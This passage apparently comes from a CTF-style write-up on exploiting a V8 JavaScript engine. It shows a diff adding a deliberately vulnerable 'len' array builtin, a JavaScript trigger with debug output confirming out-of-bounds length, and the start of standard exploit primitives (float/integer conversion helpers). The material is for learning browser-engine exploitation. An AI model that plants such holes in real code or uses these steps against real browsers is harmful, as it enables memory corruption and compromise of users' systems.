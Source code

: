 --- a/src/init/bootstrapper.cc
+++ b/src/init/bootstrapper.cc
@@ -1808,6 +1808,8 @@ void Genesis::InitializeGlobal(Handle<JSGlobalObject> global_object,
                           0, false);
     SimpleInstallFunction(isolate_, proto, "push", Builtin::kArrayPrototypePush,
                           1, false);
+    SimpleInstallFunction(isolate_, proto, "len", Builtin::kArrayLen,
+                          2, false);
     SimpleInstallFunction(isolate_, proto, "reverse",
                           Builtin::kArrayPrototypeReverse, 0, false);
     SimpleInstallFunction(isolate_, proto, "shift",
{{< /code >}}

Here's some Javascript code that triggers this vulnerability. The `len` builtin is called, and sets the length of the array to the value of `1337`.
```js
let a = [1.1, 2.2];
a.len(1337);
%DebugPrint(a);
```

We can see in the debug information below, that while the array only has two elements the length of the array is `1337`, giving us unrestricted out-of-bounds access below it.
```
DebugPrint: 0x27ff0004b9c9: [JSArray]
 - map: 0x27ff0018e6bd <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x27ff0018e11d <JSArray[0]>
 - elements: 0x27ff0004b9b1 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
 - length: 1337
 - properties: 0x27ff00002259 <FixedArray[0]>
 - All own properties (excluding elements): {
    0x27ff00006551: [String] in ReadOnlySpace: #length: 0x27ff00144269 <AccessorInfo name= 0x27ff00006551 <String[6]: #length>, data= 0x27ff000023e1 <undefined>> (const accessor descriptor), location: descriptor
 }
 - elements: 0x27ff0004b9b1 <FixedDoubleArray[2]> {
           0: 1.1
           1: 2.2
 }
...
```

### 3.2. A Few Exploit Primitives
I'm not going to go into too much detail here, as there are a lot of resources detailing common V8 exploit primitives. Plus if you're reading this I'm assuming you already know a little about V8 exploitation.

```js
var bs = new ArrayBuffer(8);
var fs = new Float64Array(bs);
var is = new BigUint64Array(bs);

/* converts a float to a 64-bit uint */
function ftoi(x) {
  fs[0] = x;
  return is[0];
}

/* converts a 64-bit uint to a float */
function itof(x) {
  is[0] = x;
  return fs[0];
}
```
